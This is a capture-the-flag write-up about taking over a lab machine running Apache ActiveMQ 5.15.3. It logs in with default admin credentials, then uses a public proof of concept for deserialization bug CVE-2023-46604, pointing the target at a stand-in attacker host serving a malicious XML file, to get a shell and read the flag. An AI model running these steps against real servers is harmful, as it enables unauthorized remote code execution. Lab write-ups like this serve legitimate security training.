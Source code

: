 # Prime Time (user)
<p align="center">
    <img src="img/prime_time_user_chall.png" alt="Challenge" width="500"/>
</p>

We are given the IP of a machine, and start with a nmap scan to identify which ports are open.
```console
$ nmap -T 5 -p- 10.128.2.125 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 00:16 CET
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
1883/tcp  open  mqtt
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.2.22.v20170606
39959/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.2.22.v20170606
61616/tcp open  apachemq   ActiveMQ OpenWire transport
```

Port 8161 leads to an `ActiveMQ` website, which has links to `/admin` and `/demo`. The demo-endpoint gives a 404, while the admin-endpoint prompts us for login credentials.
<p align="center">
    <img src="img/prime_time_activemq.png" alt="ActiveMQ-website" width="500"/>
</p>

The default credentials for ActiveMQ is `admin:admin`, and we can login as admin, however other than revealing that the ActiveMQ version is `5.15.3` this path does not lead to anything.
<p align="center">
    <img src="img/prime_time_activemq_admin.png" alt="ActiveMQ-admin" width="500"/>
</p>

This version of ActiveMQ has a deserialization vulnerability, [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/cve-2023-46604), which gives attackers remote code execution.
We can use [this POC](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) to exploit the vulnerability and get shell on the server.

```console
$ python3 exploit.py -i 10.128.2.125 -si <attacker_ip>
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.128.2.125:61616
[*] Serving XML at: http://<attacker_ip>:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ id
uid=998(prime) gid=995(prime) groups=995(prime),0(root) context=system_u:system_r:unconfined_service_t:s0
```

We get shell as the user `prime`, which can read the flag from `/home/activemq/user.txt`.
```console
Apache ActiveMQ$ cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```
